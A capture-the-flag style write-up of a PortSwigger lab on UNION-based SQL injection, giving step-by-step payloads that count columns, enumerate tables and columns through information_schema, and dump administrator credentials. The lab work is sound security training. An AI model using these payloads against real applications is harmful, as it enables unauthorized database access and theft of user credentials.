


# Lab: SQL Injection — Listing Database Contents (Non-Oracle)

**Platform:** PortSwigger Web Security Academy  
**Category:** SQL Injection — UNION Attacks  
**Difficulty:** Practitioner  
**Status:** ✅ Solved

---

## Objective

Extract administrator credentials by enumerating database tables and columns using UNION-based SQL injection on a non-Oracle database.

---

## Tools Used

- Burp Suite (request interception & modification)
- Browser

---

## Steps

### Step 1 — Find Number of Columns

Used `ORDER BY` clause to determine how many columns the query returns:

```
category=Pets' ORDER BY 2--
```

No error returned — confirmed query returns **2 columns**.


---

### Step 2 — Confirm Text Columns

Verified both columns can hold text data:

```
category=Pets' UNION SELECT 'abc','def'--
```

Both columns returned text successfully — UNION attack is possible.

---

### Step 3 — Extract Table Names

Queried `information_schema.tables` to list all tables in the database:

```
category=Pets' UNION SELECT table_name,null FROM information_schema.tables--
```

Found target table: **`users_mkiafm`**




---

### Step 4 — Extract Column Names

Queried `information_schema.columns` to find columns inside the target table:

```
category=Pets' UNION SELECT column_name,null FROM information_schema.columns WHERE table_name='users_mkiafm'--
```

Found columns:
- `username_lugdih`
- `password_lrnrix`


---

### Step 5 — Dump Credentials

Retrieved all usernames and passwords from the table:

```
category=Pets' UNION SELECT username_lugdih,password_lrnrix FROM users_mkiafm--
```

Successfully retrieved administrator credentials and logged in.




---

## Key Takeaway

`information_schema` is a goldmine in non-Oracle databases.  
It stores metadata about every table and column — making it the first place to look when enumerating a database during a SQL injection attack.

**Attack flow:**
```
Find columns → Confirm text → Dump tables → Dump columns → Dump data
```

---

## References

- [PortSwigger SQL Injection Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
- [OWASP Top 10 — A03:2021 Injection](https://owasp.org/Top10/A03_2021-Injection/)
